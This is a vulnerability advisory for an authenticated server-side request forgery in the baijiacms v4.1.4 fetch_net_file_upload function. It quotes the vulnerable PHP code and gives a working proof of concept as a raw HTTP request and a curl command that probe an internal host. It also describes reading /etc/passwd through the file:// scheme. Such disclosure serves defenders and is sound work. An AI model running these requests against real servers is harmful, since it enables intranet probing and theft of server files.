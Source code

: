 # SSRF vulnerability in `fetch_net_file_upload` Function of `file.php` File (baijiacms v4.1.4 version)

## 0x01 Affected version

vendor: https://baijiacms.github.io/baijiacmsv4/index.html

version: V4.1.4

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `fetch_net_file_upload` function of baijiacmsv4 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `url` parameter. We should note that the vulnerability requires authentication before it can be triggered.



The vulnerable code is located in the `fetch_net_file_upload` function in the `includes/baijiacms/common.inc.php` file. This function is called in the file `system/public/class/web/file.php`. Because the function does not perform sufficient checksumming on the `url` parameter, the taint is introduced from the `$url` variable into the tainted function `file_get_contents`, and after the `file_get_contents` function is executed it sends a request to the URL specified by the url parameter, eventually leading to an SSRF vulnerability.



The file `system/public/class/web/file.php` calls the `fetch_net_file_upload` function with the following code
```php
if ($do == 'fetch') {
    $url = trim($_GPC['url']); // $_GPC actually is $_GET 
    $file = fetch_net_file_upload($url);
    if (is_error($file)) {
        $result['message'] = $file['message'];
        die(json_encode($result));
    }
}
```



The relevant code for the file `includes/baijiacms/common.inc.php` is shown below

```php
function fetch_net_file_upload($url)
{
    $url = trim($url);
    $extention = pathinfo($url, PATHINFO_EXTENSION);
    $path = '/attachment/';
    $extpath = "{$extention}/" . date('Y/m/');

    mkdirs(WEB_ROOT . $path . $extpath);
    do {
        $filename = random(15) . ".{$extention}";
    } while (is_file(SYSTEM_WEBROOT . $path . $extpath . $filename));


    $file_tmp_name = SYSTEM_WEBROOT . $path . $extpath . $filename;
    $file_relative_path = $extpath . $filename;
    if (file_put_contents($file_tmp_name, file_get_contents($url)) == false) {
        $result['message'] = '提取失败.';
        return $result;
    }
    $file_full_path = WEB_ROOT . $path . $extpath . $filename;
    return file_save($file_tmp_name, $filename, $extention, $file_full_path, $file_relative_path);
}
```

Because the `url` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows

```
GET /index.php?mod=site&do=file&act=public&op=fetch&beid=1&url=http%3A%2F%2F172.16.119.1%2Fzfuzz HTTP/1.1
Host: 172.16.119.141
Accept: application/json, text/javascript, */*; q=0.01
Cookie: PHPSESSID=e7m370238fh577ta0kbqmkr7e1; __fileupload_type=image; __fileupload_dest_dir=; __fileupload_global=
Connection: close
```

![](./media/16615248830338/16615299946412.jpg)

You can also use the following curl command to verify the vulnerability

```
curl -i -s -k -X $'GET' \
    -H $'Host: 172.16.119.141' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'Connection: close' \
    -b $'PHPSESSID=e7m370238fh577ta0kbqmkr7e1; __fileupload_type=image; __fileupload_dest_dir=; __fileupload_global=' \
    $'http://172.16.119.141/index.php?mod=site&do=file&act=public&op=fetch&beid=1&url=http%3A%2F%2F172.16.119.1%2Fzfuzz'
```

The vulnerability can also be exploited to read arbitrary local files using the `file://` protocol, as the vulnerability saves the fetched content under the `attachment` folder and returns the corresponding file name. So we can directly access the corresponding file to get the file content.

![](./media/16615248830338/16615304827987.png)

Access the corresponding file to get the contents of the `/etc/passwd` file

![](./media/16615248830338/16615305567515.png)

### 0x03 Acknowledgement

z3